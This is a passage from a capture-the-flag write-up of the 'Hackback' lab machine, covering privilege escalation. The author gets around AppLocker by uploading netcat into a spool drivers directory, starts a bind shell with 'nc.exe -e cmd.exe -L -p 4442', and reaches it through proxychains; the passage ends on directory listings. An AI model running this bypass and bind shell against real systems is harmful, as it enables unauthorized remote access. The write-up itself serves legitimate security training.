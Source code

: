 No user flag yet though.

### Escalating to user hacker

That WinRM shell was very slow so I spawned a bind shell on port 4442 with netcat to speed things up a little bit.

Initially I tried uploading netcat to `\programdata` but found out that AppLocker was blocking it so instead I uploaded it to a directory not controlled by AppLocker:`./hackback_write.py "/Windows/System32/spool/drivers/color/nc.exe" nc.exe`

```
C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe -L -p 4442
[...]
# proxychains nc -nv 127.0.0.1 4442
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4442.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\util>whoami
whoami
hackback\simple
```

There's an interesting directory `c:\util` that contains a bunch of different tools:

```
C:\util>dir       
dir
 Volume in drive C has no label.
 Volume Serial Number is 00A3-6B07

 Directory of C:\util

07/05/2019  03:11 AM    <DIR>          .
07/05/2019  03:11 AM    <DIR>          ..
03/08/2007  01:12 AM           139,264 Fping.exe
03/29/2017  07:46 AM           312,832 kirbikator.exe
12/14/2018  04:42 PM             1,404 ms.hta
12/14/2018  04:30 PM    <DIR>          PingCastle
02/29/2016  01:04 PM           359,336 PSCP.EXE
02/29/2016  01:04 PM           367,528 PSFTP.EXE
05/04/2018  12:21 PM            23,552 RawCap.exe
               7 File(s)      1,204,017 bytes
               3 Dir(s)  92,174,512,128 bytes free
```

There's also an hidden directory `c:\util\scripts`:

```
C:\util>dir /ah
 Volume in drive C has no label.
 Volume Serial Number is 00A3-6B07

 Directory of C:\util

12/21/2018  07:21 AM    <DIR>          scripts
               0 File(s)              0 bytes
               1 Dir(s)  92,174,512,128 bytes free

C:\util\scripts>dir
 Volume in drive C has no label.
 Volume Serial Number is 00A3-6B07

 Directory of C:\util\scripts
```